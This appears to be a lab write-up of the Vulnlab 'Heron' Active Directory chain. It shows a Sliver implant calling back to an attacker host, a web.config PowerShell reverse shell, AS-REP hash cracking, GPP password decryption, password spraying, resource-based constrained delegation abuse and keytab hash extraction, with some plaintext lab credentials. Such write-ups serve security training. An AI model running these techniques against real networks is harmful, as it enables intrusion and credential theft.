






# Initial enumeration

hosts:
10.10.140.245
10.10.140.246

## Nmap Scan

    ➜  heron nmap -sC -sV -Pn  10.10.160.246

    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-12 19:56 EDT
    Nmap scan report for 10.10.160.150
    Host is up (0.066s latency).
    Not shown: 999 closed tcp ports (reset)
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.7 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   256 10:a0:bd:2a:81:3d:37:5d:23:75:c8:d2:83:bf:2a:23 (ECDSA)
    |_  256 bd:32:29:26:4d:41:d7:56:01:37:bc:10:0c:de:45:24 (ED25519)
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

This is an assumed breach scenario. Heron Corp created a low-privileged local user account on a jump server for you.

pentest:Heron123!

## Sliver
For SOCKS Proxy to the DC i will use [sliver/C2](https://github.com/BishopFox/sliver)

    [server] sliver > new-operator --name heron --lhost localhost

    [*] Generating new client certificate, please wait ... 
    [*] Saved new client config to: /opt/vulnlab/chains/heron/heron_localhost.cfg 

    [server] sliver > multiplayer

    [*] Multiplayer mode enabled!

lets upload first of .cfg file 
    ➜  heron ./sliver-client_linux import heron_localhost.cfg

then we can create reverse shell for linux machine

    sliver > generate --mtls 10.8.2.152 --os linux --arch amd64 --skip-symbols --save /opt/vulnlab/chains/heron --name heron_lin

    [*] Generating new linux/amd64 implant binary
    [!] Symbol obfuscation is disabled
    [*] Build completed in 13s
    [*] Implant saved to /opt/vulnlab/chains/heron/heron_lin

    sliver > mtls

    [*] Starting mTLS listener ...

    [*] Successfully started job #2

after we upload and run we will see got shell on sliver

    pentest@frajmp:/tmp$ chmod 777 heron_lin 
    pentest@frajmp:/tmp$ ls
    heron_lin
    snap-private-tmp
    systemd-private-577ffcc340834ae6a6a960d2799559f7-ModemManager.service-pvk2h5
    systemd-private-577ffcc340834ae6a6a960d2799559f7-systemd-logind.service-vRFEsp
    systemd-private-577ffcc340834ae6a6a960d2799559f7-systemd-timesyncd.service-LrE4Os
    pentest@frajmp:/tmp$ ./heron_lin &
    [1] 1721

we got shell succesfully on sliver lets start here socks5 

    sliver (heron_lin) > socks5 start

    [*] Started SOCKS5 127.0.0.1 1081  
    ⚠  In-band SOCKS proxies can be a little unstable depending on protocol

let see 10.10.140.245 had a no port open first lets check rn with proxychains.

    ➜  heron proxychains nmap -sT -p 445 10.10.140.245
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-12 21:23 EDT
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.140.245:445  ...  OK
    Nmap scan report for 10.10.140.245
    Host is up (0.085s latency).

    PORT    STATE SERVICE
    445/tcp open  microsoft-ds

great! all proxy work successfully rn.

lets start nmap scan on ssh cauze proxychains is so slow.

    sliver (heron_lin) > upload nmap 

we can use upload like evil-winrm

    pentest@frajmp:/tmp$ ./nmap -sT -p 22,80,88,443,445,3389,5985 --open 10.10.140.245

    Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2024-07-13 01:30 UTC
    Unable to find nmap-services!  Resorting to /etc/services
    Cannot find nmap-payloads. UDP payloads are disabled.
    Nmap scan report for 10.10.140.245
    Host is up (0.00073s latency).
    Not shown: 3 filtered ports
    PORT     STATE SERVICE
    80/tcp   open  http
    88/tcp   open  kerberos
    445/tcp  open  microsoft-ds
    3389/tcp open  ms-wbt-server

thats all okey but there is nothing on website vhost attack would be cool for it.

    sliver (heron_lin) > upload /usr/bin/ffuf

    [*] Wrote file to /tmp/ffuf

    sliver (heron_lin) > upload /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt

    ⠋  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠙  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠹  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠸  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠼  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠴  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠦  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠧  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠇  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠏  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠋  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠙  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi ⠹  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt -> subdomains-top1mi[*] Wrote file to /tmp/subdomains-top1million-110000.txt

    pentest@frajmp:/tmp$ ./ffuf -w subdomains-top1million-110000.txt -u http://heron.vl -H "Host: FUZZ.heron.vl" -fs 4128

    accounting              [Status: 401, Size: 0, Words: 1, Lines: 1, Duration: 26ms]

so its 401 we need to find some creds let use asrep attacaks maybe can find hash.

.png>)

i created userslist with those on lets try something.

    ➜  heron john samuel_davies.hash --wordlist=/usr/share/wordlists/rockyou.txt 
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    <redacted>        ($krb5asrep$23$samuel.davies@HERON.VL) 

with creds let use bloodhound directly and we can basicly dump userslist with it

    ➜  blood proxychains bloodhound-python -d 'heron.vl' -u 'samuel.davies' -p 'l6fkiy9oN' -c all -ns 10.10.140.245

for dump all userslist:

    ➜  blood cat 20240712214111_users.json | jq -r '.data[] | select(.Properties.samaccountname != null) | .Properties.samaccountname' 

    svc-web-accounting-d
    svc-web-accounting
    adm_hoka
    adm_prju
    Geraldine.Powell
    Jayne.Johnson
    Samuel.Davies
    Danielle.Harrison
    Alice.Hill
    Julian.Pratt
    Mohammed.Parry
    Wayne.Wood
    Rhys.George
    Jane.Richards
    Vanessa.Anderson
    Steven.Thomas
    Adam.Matthews
    Adam.Harper
    Amanda.Williams
    Rosie.Evans
    Carol.John
    Anthony.Goodwin
    Rachael.Boyle
    krbtgt
    Katherine.Howard
    _admin
    Guest

## XML-crack

its domain users member lets access smb.

    smb: \heron.vl\Policies\{6CC75E8D-586E-4B13-BF80-B91BEF1F221C}\Machine\Preferences\Groups\> ls
    .                                   D        0  Tue Jun  4 11:59:44 2024
    ..                                  D        0  Tue Jun  4 11:59:44 2024
    Groups.xml                          A     1135  Tue Jun  4 12:01:07 2024

on SYSVOL

    ➜  heron cat Groups.xml 
    <?xml version="1.0" encoding="utf-8"?>
    <Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><Group clsid="{6D4A79E4-529C-4481-ABD0-F5BD7EA93BA7}" name="Administrators (built-in)" image="2" changed="2024-06-04 15:59:45" uid="{535B586D-9541-4420-8E32-224F589E4F3A}"><Properties action="U" newName="" description="" deleteAllUsers="0" deleteAllGroups="0" removeAccounts="0" groupSid="S-1-5-32-544" groupName="Administrators (built-in)"><Members><Member name="HERON\svc-web-accounting" action="ADD" sid="S-1-5-21-1568358163-2901064146-3316491674-24602"/><Member name="HERON\svc-web-accounting-d" action="ADD" sid="S-1-5-21-1568358163-2901064146-3316491674-26101"/></Members></Properties></Group>
            <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator (built-in)" image="2" changed="2024-06-04 16:00:13" uid="{F3B0115E-D062-46CC-B10C-C3EB743C824A}"><Properties action="U" newName="_local" fullName="" description="local administrator" cpassword="1G19pP9gbIPUr5xLeKhEUg==" changeLogon="0" noChange="0" neverExpires="1" acctDisabled="0" subAuthority="RID_ADMIN" userName="Administrator (built-in)"/></User>
    </Groups>

will use [gpp-decyrpt](https://github.com/t0thkr1s/gpp-decrypt) file for extract it.

i will try this password with all users.

    ➜  heron proxychains crackmapexec smb 10.10.140.245 -u fullusers.txt -p '<redacted>' --continue-on-success
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.140.245:445  ...  OK
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.140.245:135  ...  OK
    SMB         10.10.140.245   445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.140.245:445  ...  OK
    SMB         10.10.140.245   445    MUCDC            [+] heron.vl\svc-web-accounting-d:<redacted>

Note that at this point I took a break in between creating this writeup, so the IP addresses will change. The updated addresses for mucdc.heron.vl and frajmp.heron.vl are 10.10.220.53 and 10.10.220.54.

Since we have valid credentials for svc-web-accounting-d, I decided to see if we had access to the accounting$ SMB share that we saw previously.

## Poising-Web.config

its also work for accounting vhost we can access webser rn.

After doing a bit of research into this application (finding that this is an IIS application running ASP.NET), the actual exploitation consists of the web.config file that is located on the root directory of this SMB share.

    <?xml version="1.0" encoding="utf-8"?>
    <configuration>
    <location path="." inheritInChildApplications="false">
        <system.webServer>
        <handlers>
            <add name="aspNetCore" path="*" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
        </handlers>
        <aspNetCore processPath="dotnet" arguments=".\AccountingApp.dll" stdoutLogEnabled="false" stdoutLogFile=".\logs\stdout" hostingModel="inprocess" />
        </system.webServer>
    </location>
    </configuration>
    <!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->

This file specifically seems to be related to the runtime arguments that actually define how this application is initialized. As we can see, the aspNetCore module is created by executing AccountingApp.dll, which I’m assuming is then chained to execute all of the other libraries within this directory.

After doing some research, I found an RCE exploit that we can utilize that uses aspNetCore module that is already present in the configuration file. The resource I used for RCE exploit can be found here, all credit goes to Jeroen Verhaeghe.

If we alter the aspNetCore module to instead use PowerShell as its process path, we can pass in PowerShell arguments into the arguments section within the module. In theory, this should render the website unusable due to the application requiring the serialization of AccountingApp.dll. That being said, it should execute our payload before receiving this error. This was essentially the only way to achieve RCE that I found, I am open to understanding other ways to achieve this without rendering the web application unusable.

So with that being said let’s replace the module initialization and the actual module itself, I’ve made the necessary changes to the file as seen below (Note that the payload that I’m using is from [revshells](https://www.revshells.com/)).

    <?xml version="1.0" encoding="utf-8"?>
    <configuration>
    <location path="." inheritInChildApplications="false">
        <system.webServer>
        <handlers>
            <add name="aspNetCore" path="execute.now" verb="*" modules="AspNetCoreModuleV2" resourceType="Unspecified" />
        </handlers>
        <aspNetCore processPath="powershell" arguments="-e (POWERSHELL BASE64 PAYLOAD)" hostingModel="OutOfProcess" />
        </system.webServer>
    </location>
    </configuration>
    <!--ProjectGuid: 803424B4-7DFD-4F1E-89C7-4AAC782C27C4-->

after we changing lets upload it and get reverse shell

    smb: \> rm web.config
    smb: \> put web.config
    putting file web.config as \web.config (5.8 kb/s) (average 5.8 kb/s)

and got our first flag

    ➜  heron nc -nvlp 9001
    listening on [any] 9001 ...
    connect to [10.8.2.152] from (UNKNOWN) [10.10.156.21] 62127
    ls

        Directory: C:\webaccountin

    PS C:\Windows\Scripts> type ssh.ps1
    $plinkPath = "C:\Program Files\PuTTY\plink.exe"
    $targetMachine = "frajmp"
    $user = "_local"
    $password = "<redacted>"
    & "$plinkPath" -ssh -batch $user@$targetMachine -pw $password "ps auxf; ls -lah /home; exit"

This seems to contain the SSH password for the _local user. An admin user was probably trying to establish an SSH session to the frajmp jumpbox as this user using PuTTY.

Now that we have these credentials, we can try to login as this user on the jumpbox. We also won’t need our reverse shell as svc-web-accounting any longer.

    pentest@frajmp:/home$ su _local
    Password: 
    _local@frajmp:/home$ ls

    _local@frajmp:/home$ sudo -l
    [sudo] password for _local: 
    Matching Defaults entries for _local on localhost:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty

    User _local may run the following commands on localhost:
        (ALL : ALL) ALL
    _local@frajmp:/home$ sudo su
    root@frajmp:/home# 

its also work for another user

    ➜  heron proxychains crackmapexec smb 10.10.156.21 -u fullusers.txt -p '<redacted>' --continue-on-success

    SMB         10.10.156.21    445    MUCDC            [+] heron.vl\Julian.Pratt:<redacted>

got another password on Julian smb files (check .lnk files)

    ➜  julian proxychains crackmapexec smb 10.10.156.21 -u adm_prju -p '<redacted>' --continue-on-success
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.156.21:445  ...  OK
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.156.21:135  ...  OK
    SMB         10.10.156.21    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.156.21:445  ...  OK
    SMB         10.10.156.21    445    MUCDC            [+] heron.vl\adm_prju:<redacted>

## WriteAccountRestrictions

It seems that since adm_prju is within the ADMINS_T1 group, they have the WriteAccountRestrictions privilege over the domain controller.

Having WriteAccountRestrictions means that adm_prju has write access to all of the attributes on the machine, notably msDS-AllowedToActOnBehalfOfOtherIdentity. If we have the ability to modify this attribute, this means we can abuse resource-based constrained delegation.

For a small note on what resource-based constrained delegation is, it essentially allows us to request a service ticket for a specified service name to which will be impersonated by a user of our selection. We can then import this service ticket to use for either authentication or credential dumping, depending on the user we impersonate.

The process for this is relatively simple, as Bloodhound outlines our attach flow in their help page for this specific attack. Note that this requires the user to have control of a machine that has an SPN set, which we currently do since we have control over FRAJMP and it’s NT hash (meaning we’ll just need to PTH with the FRAJMP$ NT hash in our commands instead of a password).

So to start let’s ensure that FRAJMP$ can delegate on behalf of MUCDC$.

    ➜  julian proxychains rbcd.py -delegate-from 'FRAJMP$' -delegate-to 'MUCDC$' -action 'write' 'heron.vl/adm_prju:ayDMWV929N9wAiB4'
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    Impacket v0.12.0.dev1+20240626.193148.f827c8c7 - Copyright 2023 Fortra

    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.156.21:389  ...  OK
    [*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
    [*] Delegation rights modified successfully!
    [*] FRAJMP$ can now impersonate users on MUCDC$ via S4U2Proxy
    [*] Accounts allowed to act on behalf of other identity:
    [*]     FRAJMP$      (S-1-5-21-1568358163-2901064146-3316491674-27101)
## KeyTabExtract
MOST IMPORTANT PART!! WE NEED FRAJMP NT HASH SO LET USE krb5.keytab from ssh cauze we are root then for crack it let use [KeyTabExtract](https://github.com/sosdave/KeyTabExtract)

    ➜  KeyTabExtract git:(master) python3 keytabextract.py ../krb5.keytab
    [*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
    [*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
    [*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
    [+] Keytab File successfully imported.
            REALM : HERON.VL
            SERVICE PRINCIPAL : FRAJMP$/
            NTLM HASH : <redacted>
            AES-256 HASH : 7be44e62e24ba5f4a5024....600bb9c69f11da3050dd586130e7
            AES-128 HASH : dcaaea0cdc4....9bf78e6a6cbd0cd

I found that the Administrator account is disabled and was replaced with _admin, so we'll request for that user instead. You could also request to impersonate MUCDC$, as we'll be able to dump credentials with both of those accounts.

and we can run getST rn succesfully

    proxychains4 impacket-getST -spn 'cifs/mucdc.heron.vl' -impersonate '_admin' 'heron.vl/FRAJMP$' -hashes :(FRAJMP NT HASH)
    ......
    [proxychains] DLL init: proxychains-ng 4.17
    Impacket v0.12.0.dev1 - Copyright 2023 Fortra

    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  HERON.VL:88  ...  OK
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  HERON.VL:88  ...  OK
    [*] Impersonating _admin
    [*] Requesting S4U2self
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  heron.vl:88  ...  OK
    [*] Requesting S4U2Proxy
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  heron.vl:88  ...  OK
    [*] Saving ticket in _admin@cifs_mucdc.heron.vl@HERON.VL.ccache

after export it u can access admin ;)
